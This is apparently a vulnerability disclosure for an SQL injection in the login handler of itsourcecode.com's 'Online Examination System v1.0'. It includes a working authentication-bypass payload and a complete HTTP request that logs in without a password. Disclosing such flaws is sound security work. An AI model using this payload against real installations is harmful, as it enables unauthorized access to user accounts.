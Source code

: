 # Online Examination System v1.0 by itsourcecode.com has SQL injection
**Vul_Author:** Wenxun Wang

**vendors:** https://itsourcecode.com/free-projects/php-project/online-examination-system-in-php/

**Vulnerability url:** /Online/query/loginExe.php

**Vulnerability location:** /Online/query/loginExe.php


**[+] Payload:** username=jane@gmail.com'#&pass=

​	Leak place : username

**Correct username and password:** username=jane@gmail.com&pass=jane

**Request package**：try to log in without password

```
POST /Online/query/loginExe.php HTTP/1.1
Host: localhost
Content-Length: 31
sec-ch-ua: "-Not.A/Brand";v="8", "Chromium";v="102"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/Online/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=hlrckqkq9743hpeup42er0t684
Connection: close

username=jane@gmail.com'#&pass=
```

**SQL injection result**：(line 12 of the response) login successfully without password

![sql_injection](https://github.com/iknownt/bug_report/blob/main/vendors/itsourcecode.com/Online-Examination-System/images/sql_injection1.png)


